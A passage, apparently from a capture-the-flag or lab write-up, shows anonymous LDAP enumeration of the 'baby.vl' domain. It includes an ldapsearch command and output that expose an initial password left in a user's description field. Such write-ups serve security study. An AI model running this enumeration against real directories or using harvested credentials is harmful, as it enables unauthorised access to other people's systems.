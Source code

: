 ```
distinguishedName: CN=Hugh George,OU=dev,DC=baby,DC=vl
distinguishedName: CN=Leonard Dyer,OU=dev,DC=baby,DC=vl
distinguishedName: CN=it,CN=Users,DC=baby,DC=vl
distinguishedName: CN=Connor Wilkinson,OU=it,DC=baby,DC=vl
distinguishedName: CN=Joseph Hughes,OU=it,DC=baby,DC=vl
distinguishedName: CN=Kerry Wilson,OU=it,DC=baby,DC=vl
distinguishedName: CN=Teresa Bell,OU=it,DC=baby,DC=vl
```
Since the server is accepting **NULL Credentials**, we can further enumerate the descriptions of various objects to uncover any interesting information. Sometimes, people leave sensitive information such as passwords in these descriptions. Here's an example:
```
ldapsearch -x -H ldap://10.10.75.4 -D '' -w '' -b "CN=Teresa Bell,OU=it,DC=baby,DC=vl"
# extended LDIF
#
# LDAPv3
# base <CN=Teresa Bell,OU=it,DC=baby,DC=vl> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Teresa Bell
sn: Bell
description: Set initial password to BabyStart123!
givenName: Teresa
distinguishedName: CN=Teresa Bell,OU=it,DC=baby,DC=vl
instanceType: 4
whenCreated: 20211121151108.0Z
whenChanged: 20211121151437.0Z
displayName: Teresa Bell
uSNCreated: 12889
memberOf: CN=it,CN=Users,DC=baby,DC=vl
uSNChanged: 12905
name: Teresa Bell
objectGUID:: EDGXW4JjgEq7+GuyHBu3QQ==
userAccountControl: 66080
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132819812778759642
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAf1veU67Ze+7mkhtWWgQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: Teresa.Bell
sAMAccountType: 805306368
userPrincipalName: Teresa.Bell@baby.vl
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=baby,DC=vl
dSCorePropagationData: 20211121163014.0Z
dSCorePropagationData: 20211121162927.0Z
dSCorePropagationData: 16010101000416.0Z
msDS-SupportedEncryptionTypes: 0

# search result
```